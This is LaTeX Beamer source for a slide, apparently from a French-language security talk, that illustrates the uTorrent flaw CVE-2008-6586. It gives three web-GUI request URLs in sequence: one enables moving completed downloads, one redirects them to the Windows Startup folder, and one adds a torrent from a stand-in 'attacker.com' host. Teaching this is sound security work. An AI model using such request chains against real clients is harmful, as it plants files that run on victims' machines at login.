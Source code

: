 \section{Exemple}

\frame{\tableofcontents[currentsection]}

\begin{frame}

\begin{block}{CVE-2008-6586 (utorrent)}

\url{http://localhost:14774/gui/?action=setsetting&s=dir_completed_download_flag&v=1}


\vspace{5mm}

\url{
http://localhost:14774/gui/?action=setsetting&s=dir_completed_download&v=C\\Documents\%20and\%20Settings\\All\%20Users\\Start\%20Menu\\Programs\\Startup
}

\vspace{5mm}

\url{http://localhost:14774/gui/?action=add-url&s=http://www.attacker.com/file.torrent}


\end{block}


\end{frame}
